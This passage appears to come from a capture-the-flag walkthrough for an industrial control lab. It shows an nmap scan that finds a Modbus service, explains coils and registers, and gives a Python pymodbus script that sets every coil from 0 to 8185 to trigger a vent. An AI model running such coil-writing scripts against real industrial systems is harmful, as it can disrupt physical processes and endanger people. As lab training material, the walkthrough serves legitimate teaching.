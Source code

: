9. The **Sector 6 Manual Vent** button doesn't work. We need another way to send a trigger. Perform another nmap scan using this command.

sudo nmap -sSV -p- 10.10.10.112

![img-34](./img/img-34.png)

This scan reveals a new open port -- `1205 modbus` -- we can send manual commands to the modbus.

We're going to write a script to send manual commands to the modbus service. However, you should understand these terms: coils, discrete inputs, input registers, and holding registers.

- **Coils:** 1-bit registers. Used to control discrete outputs. May be read or written.    
- **Discrete inputs:** 1-bit registers. Used as inputs. May only be read.    
- **Input registers:** 16-bit registers. Used for input. May only be read.    
- **Holding registers:** 16-bits registers. Used for inputs, outputs or holding data. May be read or written.

10. Knowing what you know about coils, discrete inputs, input registers, and holding registers, to manually vent Sector 6, we should change the vent value from 0 to 1. To do this, we will write a Python script; and to write the script, we will download a Python module called **pymodbus**.

`pip install pymodbus`

11. Here is the script we used. Our solution guide range is from 0 to 8185. You can type any range you want but once your script goes above 8185, it
will stop reading/writing to coils. This modbus has the address range from 0 to 8186. We called it **vent.py**.

```
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
import time

client = ModbusClient('10.10.10.112', port=1205)

unit=0x01

for x in range(0,8185):

    # Get the state
    rr = client.read_coils(x, 1, unit=unit)
    print(x, "- Sector 6 Manual Vent Button output: " + str(rr.getBit(0)))

    # Manually write
    client.write_coil(x, True, unit=unit)

    # Get the state
    rr = client.read_coils(x, 1, unit=unit)
    print(x, "- Sector 6 Manual Vent Button output: " + str(rr.getBit(0)))
```